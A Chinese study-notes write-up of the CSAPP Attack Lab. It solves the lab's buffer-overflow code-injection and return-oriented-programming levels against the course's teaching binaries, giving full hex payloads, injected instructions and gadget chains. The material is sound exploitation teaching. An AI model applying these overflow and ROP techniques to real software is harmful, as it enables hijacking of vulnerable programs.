







# [读书笔记]CSAPP：AttackLab


 **README：**[http://csapp.cs.cmu.edu/3e/README-attacklab](https://link.zhihu.com/?target=http%3A//csapp.cs.cmu.edu/3e/README-attacklab)

**说明：**[http://csapp.cs.cmu.edu/3e/attacklab.pdf](https://link.zhihu.com/?target=http%3A//csapp.cs.cmu.edu/3e/attacklab.pdf)

**代码地址：**[http://csapp.cs.cmu.edu/3e/target1.tar](https://link.zhihu.com/?target=http%3A//csapp.cs.cmu.edu/3e/target1.tar)

------

这里提供了两个可执行文件文件`ctarget`和`rtarget`分别用于缓冲区注入攻击和ROP攻击，`hex2raw`可以将你想要的十六进制序列转换为对应的字符串，`farm.c`后面用到了再了解。

这里一共包含了3个缓冲区注入攻击任务（CI）以及2个ROP攻击任务（ROP）



这里的输入缓冲区代码为


## 缓冲区注入攻击

这里将栈的位置固定了，并且栈内容是可执行的。

### Level 1

在`ctarget`中会先调用函数`test`来输入字符串


任务目的是通过缓冲区注入攻击，将函数`getbuf`返回直接重定向到函数`touch1`。


我们首先反汇编`ctarget`文件得到汇编代码`objdump -d ctarget > ctarget.s`。我们直接进入函数`getbuf`中


可以看到，这里函数`getbuf`给缓冲区申请了`0x28`大小的空间，即40字节的空间，我们可以尝试下输入39个字节和40个字节的效果


可以发现输入39个字节可以正常运行，而输入40个字节就会报错，因为字符串结尾还会添加一个`\0`，其会修改返回地址，使得返回地址指向错误的地址。

我们知道在栈中，当前函数栈帧之上是返回地址，我们可以来看一下



这里在函数`getbuf`上4个字节保存了`0x00401976`正是函数`test`调用`getbuf`的下一行指令地址


所以这个任务很容易，我们只需要通过输入字符串来修改返回地址的值，使其指向目标函数`touch1`的地址，我们知道函数`torch1`的地址为`4017c0`，所以我们可以首先输入40个字符将函数`getbuf`申请的局部空间填满，然后将`4017c0`拼接在后面，这样就能覆盖返回地址，使其指向函数`touch1`。

**注意：**这里是使用小端法，所以我们输入的地址要修改为`c0174000`，然后使用程序`hex2raw`将这个十六进制地址值转化为字符串形式。

我们可以创建一个文件`CI-L1.txt`来存放我们想要输入的字符串的十六进制，输入以下内容

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* the address of touch1 */
```

然后使用`./hex2raw < CI-L1.txt > CI-L1-raw.txt`将其转换为字符串形式，得到我们想要的输入


然后就能完成这道题了



### Level 2

该任务想要我们将其重定向为函数`touch2`，并且要设置输入参数`val`为文件`cookie.txt`中的值`0x59b997fa`。


所以这里我们不仅要修改返回地址到函数`touch2`的地址，并且还要设置寄存器`%rdi`使其保存输入参数`0x59b997fa`。

**注意：**这里的`touch2`读取的是`unsigned`类型，所以`0x59b997fa`是一个整数，可以直接作为立即数。

**注意：**这里不建议使用`jmp`或`call`指令，比较难编码，建议使用`ret`指令。

我们这里首先要设置寄存器`%rdi`来保存`0x59b997fa`的值，然后再调用函数`touch2`。所以我们需要输入一段字符串，包含以下内容


1. 当函数`getbuf`返回，当前栈顶指针`%rsp`指向图中所示位置，当调用指令`ret`时，会使得寄存器`%rip`保存`0x59b997fa`，并且使得`%rsp`指向`touch2地址`。
2. 当运行到我们注入的`ret`时，会再运行`torch2`。

由于该任务固定了栈地址不变，所以我们可以先通过以下代码获得函数`getbuf`申请的栈帧的最低地址为`0x5561dc78`，即图中的`地址1`。

```text
gdb ctarget
break *0x4017c4
run -q
info registers
```

我们需要将以下汇编代码转化为对应的二进制表示，保存到`CI-L2.s`中

```text
movq $0x59b997fa, %rdi
ret
```

然后使用以下命令

```text
gcc -c CI-L2.s #对CI-L2.s进行编译
objdump -d CI-L2.o > CI-L2.d #对其进行反编译
```

可以得到指令对应的十六进制编码


最后查看函数`touch2`对应的地址为`0x4017ec`。

我们可以将以上十六进制数按顺序拼接起来。**注意：**要将字符串填充40个，才能覆盖原始原始的返回地址。

```text
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa, %rdi */
c3 /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* match 40 */ 
78 dc 61 55 00 00 00 00 /* address 1 */
ec 17 40 00 00 00 00 00 /* touch2 */
```

**注意：**因为这里是64位程序，所以需要用8字节来表示地址。

然后再将其转化为对应的字符串`./hex2raw < CI-L2.txt > CI-L2-raw.txt`。


### Level 3

该题目标是将返回函数重定位到函数`touch3`，而该函数需要传递一个字符串参数


要求我们传递进去的字符串是cookie，即`0x59b997fa`字符串形式，并且缺少`0x`，即字符串内容为`59b997fa`。


**注意：**字符串直接按顺序保存在内存中，无需根据大端法和小端法进行调整。而字符串的地址是第一个字符对应的地址，直接将字符串指针作为参数，就能传递字符串，并且以末尾`\0`指示字符串结束。

我们可以按照以上方法构造我们输入的内容



1. 当前栈顶指针`%rsp`指向的是我们注入的`mov`指令的地址，所以函数`getbuf`执行`ret`时，会开始执行我们的`mov`指令，就将字符串`59b997fa`的地址作为第一个参数，并且`%rsp`会指向`touch3`的地址
2. 当执行我们注入的`ret`时，就会开始执行`touch3`

（这里`mov`和`"59b997fa"`的位置可以任意）

我们首先在下图所示区域设置一个断点`break *0x4017ac`，运行命令`run -q`后，查看当前`%rsp`的值，` print /x $rsp`，可以得到当前的栈顶指针为`0x5561dc78`，即图中的`地址2`。


然后我们执行`print /x "59b997fa"`，将字符串转为ASCII码


就能得到字符串对应的编码为`35 39 62 39 39 37 66 61 00`。

该字符串含有9个字节，则图中的`地址1`为`0x5561dc78+0x9=0x5561dc81`。

接下来我们需要将想要注入的`mov`指令转为对应的十六进制编码，首先创建一个汇编文件`CI-L3.s`，输入对应的指令

```text
movq $0x5561dc78, $rdi
ret
```

然后执行以下命令将其反汇编，得到文件`CI-L3.d`

```text
gcc -c CI-L3.s
objdump -d CI-L3.o > CI-L3.d
```

其中包含了指令对应的编码


所以该指令对应的编码为`48 c7 c7 78 dc 61 55 c3`。

由于我们需要将缓冲区填满，才能覆盖原始的返回地址，而之前总共指令长度为`9+8=17`个字节，缓冲区大小为40字节，所以我们还需随机填充23个字节。

然后将原始返回地址修改为`mov`指令的地址，然后填充函数`touch3`的地址。

所以构建的十六进制数为

```text
35 39 62 39 39 37 66 61 00 /* "59b997fa" */
48 c7 c7 78 dc 61 55 /* mov */
c3 /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 /* match buf */
81 dc 61 55 00 00 00 00 /* mov address */
fa 18 40 00 00 00 00 00 /* touch3 address */
```

将其保存到文本`CI-L3.txt`，然后执行` ./hex2raw < CI-L3.txt > CI-L3-raw.txt`将其转换为字符串，保存在`CI-L3-raw.txt`中，就是最终的答案。

我们可以在gdb中运行`run -q < CI-L3-raw.txt`


## ROP攻击

目前常用的防御技术是将栈位置随机，并且设置栈的指令是不可执行的，所以缓冲区注入攻击就失效了，此时可以使用ROP攻击。

ROP攻击的策略就是使用现有可执行代码中包含`ret`结尾的小指令块，将其依次拼接起来组成我们想要的功能。这些小指令块称为**gadget**。


如上图所示，我们首先使用缓冲区溢出，从`%rsp`所在位置开始，依次覆盖上我们想要的gadget地址。当当前函数执行`ret`时，就会从栈顶指针`%rsp`获得返回地址，此时就会指向我们注入的gadget 1，并且`%rsp`会指向gadget 2。当gadget 1执行到`ret`时，就会返回到gadget 2，依次类推，就执行完我们想要的功能了。

并且得力于x86-64的复杂指令集系统， 一段指令编码中可能包含其他指令的编码。比如以下代码对应的汇编代码


其中，`movl $0xc78948d4,(%rdi)`的编码中的一部分`48 89 c7`其实表示`movq %rax, %rdi`。我们将这种函数称为**gadget farm**。压缩包中的`farm.c`文件就是`rtarget`中gadget farm的源代码。

我们这里的目标是使用ROP攻击来实现之前level2和level3的功能。

### Level 2

**提示：**我们这里可以使用`movq`、`popq`、`ret`和`nop`指令，并且只使用`%rax`~`%rdi`寄存器。gadget可以在`start_farm`到`mid_farm`之间寻找。

其中，`ret`编码为`0xc3`，`nop`编码为`0x90`。 `movq`和`popq`编码如下图所示



我们首先反编译`rtarget`，得到对应的汇编代码。`objdump -d rtarget > rtarget.s`。

我们这里想要重定向到以下函数



这里有一个输入参数，说明我们需要对`%rdi`进行赋值，并且`val`是我们**自定义的输入**，所以一定需要一个`pop`指令从栈中获得该输入。`pop`指令的编码都是以`5`开头的，所以我们可以在汇编代码中搜索以`5`开头，以`ret`结尾，并且两者之间尽可能是`0x90`的gadget。有两个满足这个条件的gadget，明显选择第一个比较合适。


由此我们得到**gadget 1**：`58 90 c3`，该gadget位于`0x4019ab`，表示以下指令。所以当前会从栈中获得数据保存到%rax中。

```text
popq $rax
nop
ret 
```

我们现在需要将`%rax`的内容保存到`%rdi`中，才能作为第一个参数。`movq %rax, %rdi`对应的编码为`48 89 c7`，我们搜索汇编代码，挑选最合适的，得到以下结果


由此我们得到**gadget 2**：`48 89 c7 90 c3`，该gadget位于`0x4019c5`，表示以下指令，由此就能构建第一个参数了。

```text
movq %rax, %rdi
nop
ret 
```

我们可以将输入构建成以下形式


1. 当前栈顶指针`%rsp`指向gadget 1，则函数`getbuf`执行`ret`时，就会去执行gadget 1的指令，此时`%rsp`就会指向`0x59b997fa`。
2. 因为gadget 1会执行`pop $rax`指令，所以会将`%rsp`当前指向的内容保存到`%rax`中，然后`%rsp`就指向了gadget 2。
3. 当gadget 1执行`ret`时，就会执行`%rsp`指向的gadget 2，此时就会执行`movq %rax, %rdi`，就将`0x59b997fa`作为第一个参数。并且`%rsp`当前指向`touch 2`的地址
4. 当gadget 2执行`ret`时，就会执行函数`touch 2`。

所以我们可以创建一个文件`ROP-L2.txt`，保存以下内容

```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* match 40 */
ab 19 40 00 00 00 00 00 /* gadget 1 */
fa 97 b9 59 00 00 00 00 /* 0x59b997fa */
c5 19 40 00 00 00 00 00 /* gadget 2 */
ec 17 40 00 00 00 00 00 /* touch 2 */
```

**注意：**因为这里执行的是`popq`指令，所以会从内存中读取8字节内容，所以要对`0x59b997fa`扩充到8字节。

最后执行`./hex2raw < ROP-L2.txt > ROP-L2-raw.txt`得到字符串，然后执行` ./rtarget -q < ROP-L2-raw.txt`就完成本题


### Level 3

该任务让我们使用ROP攻击来实现上面Level 3的功能。

**提示：**这里可以是使用从`start_farm`到`end_farm`的所有函数作为gadget。其次还增加了几个额外需要的指令的编码。




**注意：**D中显示的2字节指令其实都不会修改寄存器中的内容，可以将其当成**function nop指令**。

我们这里需要将字符串作为参数，说明我们需要将其保存到内存中，并且将字符串第一个字符的地址作为参数。首先，想要获得地址值，只能通过`movq %rsp`的方法来获得地址。其次，字符串只能保存在比`%rsp`小的位置或者比我们注入要运行的所有gadget末尾，因为字符串内容本身无法形成有效的地址，如果将其作为返回地址，就会保存。

首先搜索是否含有从`%rsp`移动数据的指令，搜索字符`48 89 e`，发现只包含有`48 89 e0`的字符，表示`movq %rsp, %rax`，gadget地址为`0x401aad`。


**注意：**获取地址时最好保证用8字节的指令。

此时能够获得栈顶指针，将其保存到`%rax`中，接下来需要完成两件事：

1. 对`%rax`计算得到字符串地址
2. 将计算得到的地址保存到`%rsi`中，作为函数`touch 3`的参数

由于这里没有对寄存器进行减法的指令，而我们在`farm.c`中找到了对寄存器进行加法的指令


这就表示我们可以将字符串保存到所有gadget末尾，然后通过对`%rsp`进行加法来获得字符串的地址。由于我们现在还没确定有哪些gadget，所以当前还无法确定到加法所需的偏移量，所以先来处理第二个问题。

我们可以发现，当前加法操作是将`%rdi`和`%rsi`相加保存到`%rax`中，所以我们这里需要

1. 将`%rax`中的`%rsp`保存到`%rdi`或`%rsi`中，作为加法的一部分，所以需要搜索是否存在`48 89 c6`或`48 89 c7`
2. 将偏移量保存到另一个寄存器中，说明我们需要先搜索是否存在`5e`或`5f`，来将栈中的偏移量`pop`到寄存器中
3. 执行完加法后，我们需要搜索是否存在将`%rax`的内容保存到`%rdi`的指令，所以我们要搜索是否存在`48 89 c7`

我们这里搜索到了`48 89 c7`，表示`movq %rax, %rdi`，gadget地址为`0x4019c5`。


此时就获得了地址作为参数，接下来需要将偏移量作为参数，此时偏移量值比较小，可以直接用4字节的指令。

我们这里没搜索到`5e`和`5f`，说明无法直接`pop`到`%rdi`和`%rsi`中。我们这里需要将偏移量保存到`%rsi`中，所以先找一下有没有其他寄存器移动到`%rsi`的。最终只搜索到`movl %ecx, %esi`，gadget地址为`0x401a13`。


我们搜索是存在`popq %rcx`，搜索`59`，但是没有搜索到，说明我们还需查看是否有其他的寄存器移动到`%rcx`的。最终搜索到`movl %edx, %ecx`，后面的`38 c9`是functional nop `cmpb %cl, %cl`不会影响寄存器值。该gadget地址为`0x401a34`。


然后我们搜索是否存在`popq %rdx`，搜索`5a`，还是没搜索到，就要搜索是否有其他寄存器移动到`%rdx`的。最终搜索到`movl %eax, %edx`，后面的 `84 c0`是functional nop `testb %al, %al`，不会影响寄存器值。该gadget地址为`0x401a42`。


我们搜索是否存在`popq %rax`，搜索`58`，终于找到了，该gadget地址为`0x4019ab`。


至此，我们解决了将偏移量移动到`%rsi`的gadget序列。现在需要搜索将加法运算结果`%rax`移动到`%rdi`作为函数参数，因为函数结果是地址，所以需要8字节的指令，刚好之前搜索到了`movq %rax, %rdi`指令，可以直接用。

至此我们可以将之前找到的所有gadget拼接起来


这段gadget合并起来的汇编代码为

```text
movq %rsp, %rax
movq %rax, %rdi
popq %rax #save offset into %rax
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
callq add_xy
movq %rax, %rdi
callq touch3
```

所以我们可以创建一个文件`ROP-L3.txt`，保存以下内容

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* match 40 */
ad 1a 40 00 00 00 00 00 /* gadget 1: movq %rsp, %rax */
c5 19 40 00 00 00 00 00 /* gadget 2: movq %rax, %rdi */
ab 19 40 00 00 00 00 00 /* gadget 3 : popq %rax */
48 00 00 00 00 00 00 00 /* offset */
42 1a 40 00 00 00 00 00 /* gadget 4: movl %eax, %edx */
34 1a 40 00 00 00 00 00 /* gadget 5: movl %edx, %ecx */
13 1a 40 00 00 00 00 00 /* gadget 6: movl %ecx, %esi */
d6 19 40 00 00 00 00 00 /* add_xy */
c5 19 40 00 00 00 00 00 /* gadget 7: movq %rax, %rdi */
fa 18 40 00 00 00 00 00 /* touch 3 */
35 39 62 39 39 37 66 61 00 /* string */
```

最后运行命令`./hex2raw < ROP-L3.txt > ROP-L3-raw.txt`将其转化为字符串，然后运行`./rtarget -q < ROP-L3-raw.txt`

